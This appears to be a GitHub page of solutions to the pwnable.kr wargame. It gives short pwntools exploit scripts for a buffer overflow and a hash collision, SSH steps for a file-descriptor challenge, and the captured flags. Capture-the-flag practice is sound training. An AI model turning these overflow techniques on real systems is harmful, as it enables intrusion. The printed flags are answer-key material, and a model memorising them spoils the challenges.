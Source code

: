 ## pwnable.kr solutions
http://pwnable.kr/

### bof

```python
from pwn import *

# io = gdb.debug('./bof.1', 'b*func+40')
# io = process('./bof.1')
io = remote('pwnable.kr', 9000)

io.sendline(cyclic(52)+p32(0xcafebabe))
io.interactive()
```

Flag: `daddy, I just pwned a buFFer :)`

### collision

```python
from pwn import *

hashcode = 0x21DD09EC
payload = p32(int(hashcode/5))*4 + p32(int(hashcode/5+4))
io = process(['./col', payload])
# io = gdb.debug(['./col', payload], 'b*check_password+52')
io.interactive()
```

### fd

```
ssh fd@pwnable.kr -p2222 (pw:guest)

fd@pwnable:~$ ./fd 4661
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
```
